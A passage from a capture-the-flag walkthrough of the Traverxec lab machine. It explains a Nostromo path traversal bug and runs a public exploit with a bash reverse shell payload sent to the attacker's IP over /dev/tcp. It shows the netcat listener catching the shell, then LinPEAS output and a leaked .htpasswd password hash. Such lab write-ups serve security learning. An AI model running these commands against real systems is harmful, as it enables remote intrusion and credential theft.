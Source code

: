  soc.send\(payload\)

 receive = connect\(soc\)

 print\(receive\)

In this method, the script is doing an HTTP POST to a path that is "/.%0d./.%0d./.%0d./.%0d./bin/sh". The Nostromo code checks for paths in the URL but because of the addition of the carriage return character %0d, it does not think that this is a path. The %0d is removed by a later function making the path "/../../../../bin/sh" and this is then executed with the body of the POST as the argument.

We can use this script to run the same bash reverse shell we ran in Traceback after setting up a netcat listener \(note that you may have to change the code slightly to get it to run with Python 3, encoding the payload: soc.send\(payload.encode\(\)\):

python3 47837.py 10.129.1.193 80 "bash -c 'bash -i &gt;& /dev/tcp/10.10.14.117/6001 0&gt;&1'"

We then get a reverse sehll on the box:

┌─\[rin@parrot\]─\[~\]

└──╼ $nc -lvnp 6001

listening on \[any\] 6001 ...

connect to \[10.10.14.117\] from \(UNKNOWN\) \[10.129.1.193\] 51660

bash: cannot set terminal process group \(640\): Inappropriate ioctl for device

bash: no job control in this shell

www-data@traverxec:/usr/bin$ whoami

whoami

www-data

Now that we are on the box, we can run LinPEAS by getting it using our local Python web server. The machine is running Debian Buster and there are two users with login, root and david. The key thing LinPEAS finds is a password hash that is stored in a .htpasswd file:

\[i\] https://book.hacktricks.xyz/linux-unix/privilege-escalation\#read-sensitive-data

-rw-r--r-- 1 root root 1994 Apr 18 2019 /etc/bash.bashrc

-rw-r--r-- 1 root root 3526 Apr 18 2019 /etc/skel/.bashrc

-rw-r--r-- 1 root root 807 Apr 18 2019 /etc/skel/.profile

-rw-r--r-- 1 root root 570 Jan 31 2010 /usr/share/base-files/dot.bashrc

-rw-r--r-- 1 root root 2778 Jun 26 2016 /usr/share/doc/adduser/examples/adduser.local.conf.examples/bash.bashrc

-rw-r--r-- 1 root root 802 Jun 26 2016 /usr/share/doc/adduser/examples/adduser.local.conf.examples/skel/dot.bashrc

-rw-r--r-- 1 root bin 41 Oct 25 2019 /var/nostromo/conf/.htpasswd

Reading /var/nostromo/conf/.htpasswd

david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
